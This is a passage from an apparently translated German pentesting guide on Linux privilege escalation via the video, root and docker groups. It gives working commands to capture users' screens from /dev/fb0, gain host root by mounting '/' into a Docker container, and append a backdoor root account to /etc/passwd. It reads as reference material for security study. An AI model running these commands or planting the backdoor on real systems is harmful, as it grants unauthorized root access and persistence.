 Mit dem Befehl `w` können Sie **herausfinden, wer im System angemeldet ist**, und es wird eine Ausgabe wie die folgende angezeigt:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
Die **tty1** bedeutet, dass der Benutzer **yossi physisch** an einem Terminal auf der Maschine angemeldet ist.

Die **Video-Gruppe** hat Zugriff auf die Anzeige der Bildschirmausgabe. Grundsätzlich können Sie die Bildschirme beobachten. Um dies zu tun, müssen Sie **das aktuelle Bild auf dem Bildschirm** in Rohdaten erfassen und die Auflösung ermitteln, die der Bildschirm verwendet. Die Bildschirmdaten können in `/dev/fb0` gespeichert werden, und Sie können die Auflösung dieses Bildschirms unter `/sys/class/graphics/fb0/virtual_size` finden.
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Um das **raw image** zu **öffnen**, können Sie **GIMP** verwenden, die **`screen.raw`** Datei auswählen und als Dateityp **Raw image data** auswählen:

![](<../../../images/image (463).png>)

Ändern Sie dann die Breite und Höhe auf die Werte, die auf dem Bildschirm verwendet werden, und überprüfen Sie verschiedene Bildtypen (und wählen Sie denjenigen aus, der den Bildschirm am besten darstellt):

![](<../../../images/image (317).png>)

## Root-Gruppe

Es scheint, dass **Mitglieder der Root-Gruppe** standardmäßig Zugriff auf die **Änderung** einiger **Service**-Konfigurationsdateien oder einiger **Bibliotheks**-Dateien oder **anderer interessanter Dinge** haben, die zur Eskalation von Rechten verwendet werden könnten...

**Überprüfen Sie, welche Dateien Root-Mitglieder ändern können**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
## Docker-Gruppe

Sie können **das Root-Dateisystem des Host-Systems in das Volume einer Instanz einbinden**, sodass beim Start der Instanz sofort ein `chroot` in dieses Volume geladen wird. Dies gibt Ihnen effektiv Root-Zugriff auf die Maschine.
```bash
docker image #Get images from the docker service

#Get a shell inside a docker container with access as root to the filesystem
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
#If you want full access from the host, create a backdoor in the passwd file
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd

#Ifyou just want filesystem and network access you can startthe following container:
docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```
Schließlich, wenn Ihnen keine der vorherigen Vorschläge gefällt oder sie aus irgendeinem Grund nicht funktionieren (docker api firewall?), könnten Sie immer versuchen, **einen privilegierten Container auszuführen und von ihm zu entkommen**, wie hier erklärt:
